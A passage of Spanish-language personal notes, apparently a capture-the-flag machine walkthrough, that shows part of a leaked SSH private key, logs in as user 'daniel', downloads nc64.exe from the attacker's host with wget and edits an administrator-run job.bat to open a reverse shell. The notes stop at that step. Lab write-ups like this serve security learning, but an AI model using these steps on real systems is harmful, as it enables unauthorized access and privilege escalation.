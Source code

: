 ```
yrHXm3JYU25HdSv0TdupvhgzBxYOcpjqY2GA3i27KnpkIeRQAAAMEA2nxxhoLzyrQQBtES
h8I1FLfs0DPlznCDfLrxTkmwXbZmHs5L8pP44Ln8v0AfPEcaqhXBt9/9QU/hs4kHh5tLzR
Fl4Baus1XHI3RmLjhUCOPXabJv5gXmAPmsEQ0kBLshuIS59X67XSBgUvfF5KVpBk7BCbzL
mQcmPrnq/LNXVk8aMUaq2RhaCUWVRlAoxespK4pZ4ffMDmUe2RKIVmNJV++vlhC96yTuUQ
S/58hZP3xlNRwlfKOw1LPzjxqhY+vzAAAAwQDKOnpm/2lpwJ6VjOderUQy67ECQf339Dvy
U9wdThMBRcVpwdgl6z7UXI00cja1/EDon52/4yxImUuThOjCL9yloTamWkuGqCRQ4oSeqP
kUtQAh7YqWil1/jTCT0CujQGvZhxyRfXgbwE6NWZOEkqKh5+SbYuPk08kB9xboWWCEOqNE
vRCD2pONhqZOjinGfGUMml1UaJZzxZs6F9hmOz+WAek89dPdD4rBCU2fS3J7bs9Xx2PdyA
m3MVFR4sN7a1cAAAANZGFuaWVsQEVudGl0eQECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```


Crear un archivo que se llame *id_rsa*, poner todo el contenido y darle permiso `chmod 400 id_rsa`

-------------
# Conexion por [[ssh]] con el id_rsa

```
ssh -i id_rsa daniel@10.129.127.52 -p 22
```
![[Markup15.png]]

---
# Escalada de privilegios a root buscando [[Logs de la powershell y de consola]]

En la carpeta de logs vemos este archivo llamado *job.bat*
![[Markup19.png]]

### Ejecutamos una [[powershell]] para mayor comodidad

Vemos los permisos del archivo job.bat con [[icacls]] `icacls job.bat`
![[Markup20.png]]
Viendo el contenido de el job.bat se saca la teoria de que se esta ejecutando como administrador, la verdad eso no lo entendi
Como se esta ejecutando como administrador, vamos a cambiar las instrucciones del job.bat y mandarnos una [[Reverse shell]]

Usamos [[wget]] ``wget http://10.10.16.21:8000/nc64.exe -outfile nc64.exe`` para descargar el archivo, mientras desde nuestra maquina usamos [[python3 -m http.server]]

![[Markup22.png]]


Nos ponemos en escucha con [[nc -nlvp 443]]
![[Markup24.png]]

Y ahora cambiamos la instruccion del `job.exe` para que nos mande la [[Reverse shell]]
